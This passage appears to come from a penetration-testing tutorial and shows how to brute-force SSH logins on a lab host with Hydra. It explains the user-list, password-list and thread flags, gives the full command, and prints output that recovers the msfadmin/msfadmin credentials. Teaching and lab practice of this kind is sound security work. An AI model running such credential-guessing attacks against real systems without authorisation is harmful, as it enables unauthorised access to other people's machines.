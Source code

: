 Hydra contains a range of options, but today we will be using the following:
- The -L flag, which specifies a list of login names.
- The -P flag, which specifies a list of passwords.
- ssh://172.16.1.102 — our target and protocol.
- The -t flag set to 4, which sets the number of parallel tasks to run.
Once we kick it off, the tool will display the status of the attack:
`~$ hydra -L users.txt -P passwords.txt ssh://172.16.1.102 -t 4`
```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-09 15:12:47
[DATA] max 4 tasks per 1 server, overall 4 tasks, 90 login tries (l:9/p:10), ~23 tries per task
[DATA] attacking ssh://172.16.1.102:22/
```

After a period of time, it will complete and show us the number of successful logins found.
```
[22][ssh] host: 172.16.1.102   login: msfadmin   password: msfadmin
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 46 to do in 00:02h, 4 active
[STATUS] 42.00 tries/min, 84 tries in 00:02h, 6 to do in 00:01h, 4 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-09 15:15:10
```

Hydra's parallel processing power makes it a good choice when a large number of potential credentials are involved.
